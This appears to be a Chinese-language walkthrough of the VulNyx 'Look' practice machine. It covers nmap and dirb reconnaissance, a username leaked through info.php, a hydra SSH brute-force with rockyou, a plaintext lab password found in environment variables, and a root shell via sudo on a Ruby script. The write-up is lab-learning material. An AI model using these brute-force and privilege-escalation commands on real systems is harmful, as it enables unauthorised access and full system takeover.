








# 环境

来自[Vulny_Look](https://vulnyx.com/#Look)，通过信息泄露爆破ssh，ruby提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.11
```



## 详情探测

```bash
sudo nmap -sV -sC -p22,80 -O 192.168.10.11
```



## 目录扫描

```bash
dirb http://192.168.10.11
```



# web渗透

## info.php敏感信息

访问http://192.168.10.11/info.php，搜索user可泄露用户名



## ssh爆破

```bash
hydra -l axel -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.11 -o output.txt
```



## 用户泄露

```bash
printenv #环境变量发现用户密码
用户：dylan
密码：bl4bl4Dyl4N
```



## 提权

```bash
sudo -l
file /usr/bin/nokogiri #发现是一个ruby脚本
cat /usr/bin/nokogiri
sudo -u root /usr/bin/nokogiri .profile -e "exec '/bin/bash'"
```

[ruby提权](https://gtfobins.github.io/gtfobins/ruby/)

